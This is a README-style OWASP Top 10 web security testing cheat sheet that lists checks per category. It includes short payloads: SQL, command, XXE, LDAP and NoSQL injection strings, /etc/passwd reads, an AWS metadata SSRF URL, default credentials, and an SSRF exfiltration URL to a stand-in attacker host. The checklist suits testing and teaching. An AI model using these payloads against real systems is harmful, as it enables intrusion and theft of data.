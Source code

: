 

# <img src="https://github.com/Xwal13/OWASP-TOP-10-WEB-SHEET-CHEAT/raw/main/Simpleicons-Team-Simple-Owasp.svg" alt="Custom Icon" width="60" height="60"> OWASP Top 10 Cheat Sheet

---

## 1️⃣ Broken Access Control 🔓  
1. 🆔 **IDOR:** Test if IDs in URLs can access unauthorized data.  
2. 🚫 **Access Control Bypass:** Check restricted pages/APIs.  
3. 🔄 **HTTP Methods:** Test unauthorized methods (PUT, DELETE).  
4. 🕵️ **Forced Browsing:** Access hidden endpoints/admin panels.  
5. 🛠️ **Privilege Escalation:** Check if lower-privilege users can perform admin actions.  

---

## 2️⃣ Cryptographic Failures 🔒  
1. 🗝️ **Hardcoded Secrets:** Check `.env`, `.git` for sensitive keys.  
2. 🛠️ **Weak Algorithms:** Identify MD5, SHA-1, DES in code.  
3. 📡 **Plaintext Transmission:** Detect HTTP transmissions of sensitive data.  
4. 🔐 **Insecure Key Storage:** Find keys in public files/logs.  
5. 🎲 **Predictable Keys:** Verify keys are 32 bytes and random.  
6. 🔄 **Static IV Usage:** Ensure IVs are random and unique.  
7. 🚩 **Missing Signature Validation:** Decode JWT tokens; flag `alg: none`.  

---

## 3️⃣ Security Misconfigurations 🛠️  
1. 🛡️ **Default Credentials:** `admin:admin`, `root:toor`.  
2. 📁 **Sensitive Files:** Check `/robots.txt`, `.env`, `.git`.  
3. 🚪 **Access Control:** Verify `/admin`, `/backup`.  
4. ❗ **Verbose Errors:** Trigger errors with `'`, `\"`, `<script>`.  
5. 🛑 **HTTP Headers:** Check CSP, HSTS, `X-Frame-Options`.  
6. 📡 **Unnecessary Services:** Scan with `nmap` for outdated services.  
7. 🕒 **Outdated Software:** Check versions and CVEs.  

---

## 4️⃣ File Name Enumeration 📂  
- 🔍 **Locate Endpoint:** Identify file path handling endpoints.  
- 🛠️ **Baseline Test:** Request sensitive files like `/etc/passwd`.  
- 🔄 **Modified Request:** Append `_DOESNTEXIST` to file paths.  
- ⚖️ **Compare Responses:** Check error messages for clues.  

---

## 5️⃣ Injection Attacks 💉  
1. 🗄️ **SQL Injection:** Test with `' OR '1'='1' --` and `sqlmap`.  
2. 🖥️ **Command Injection:** Inject `; whoami` or `&& ls`.  
3. 📄 **XXE Injection:** Use `<!ENTITY xxe SYSTEM "file:///etc/passwd">`.  
4. 📚 **LDAP Injection:** Test with `*)(uid=*)`.  
5. 📦 **NoSQL Injection:** Inject `{"$ne": null}` or `{"$gt": ""}`.  

---

## 6️⃣ Insecure Design 🏗️  
1. 🔄 **Business Logic Flaws:** Bypass limits, reorder actions.  
2. 🚪 **Access Control Gaps:** Access admin functions as a user.  
3. 🔗 **Open Redirects:** Test `/redirect?url=http://evil.com`.  
4. 📋 **Predictable Endpoints:** Enumerate `/admin`, `/backup`.  

---

## 7️⃣ Security Logging & Monitoring Failures 📊  
1. 📝 **Insufficient Logging:** Check if auth and admin actions are logged.  
2. 🔓 **Unprotected Logs:** Look for plaintext passwords or tokens.  
3. 🚨 **No Alerts:** Verify alerts for failed logins or privilege escalation.  
4. 🕒 **Audit Trails:** Ensure critical actions are logged.  

---

## 8️⃣ SSRF (Server-Side Request Forgery) 🌐  
1. 🏠 **Internal Access:** Test URLs like `http://127.0.0.1/admin`.  
2. ☁️ **AWS Metadata:** Use `http://169.254.169.254/latest/meta-data/`.  
3. 📡 **Port Scanning:** Test with `http://127.0.0.1:22`.  
4. 🌍 **Data Exfiltration:** Redirect to `http://attacker.com/?data=<sensitive-data>`.  

---

## 9️⃣ Software & Data Integrity Failures 🛠️  
1. 🔒 **Update Integrity:** Verify checksums or signatures for updates.  
2. 🏗️ **CI/CD Security:** Test exposed CI/CD tools.  
3. 📦 **Third-Party Components:** Check if plugins are from trusted sources.  
4. ⚠️ **Deserialization Risks:** Test endpoints handling untrusted data.  

---

## 🔟 Identification & Authentication Failures 🔑  
1. 🔓 **Password Policies:** Test for weak passwords.  
2. 🔐 **MFA:** Check if enforced for sensitive accounts.  
3. 🕵️ **Username Enumeration:** Test login error messages.  
4. 🕒 **Session Security:** Verify token rotation and expiry.  

---

## 1️⃣1️⃣ Vulnerable & Outdated Components 🛠️  
1. 🆕 **Check for Updates:** Verify if libraries are up-to-date.  
2. 🛡️ **Patch Management:** Check if patches are applied.  
3. 🗑️ **EOL Software:** Identify and replace unsupported versions.  
4. 🔍 **Vulnerability Scanning:** Use Dependabot or OWASP Dependency-Check.  

---

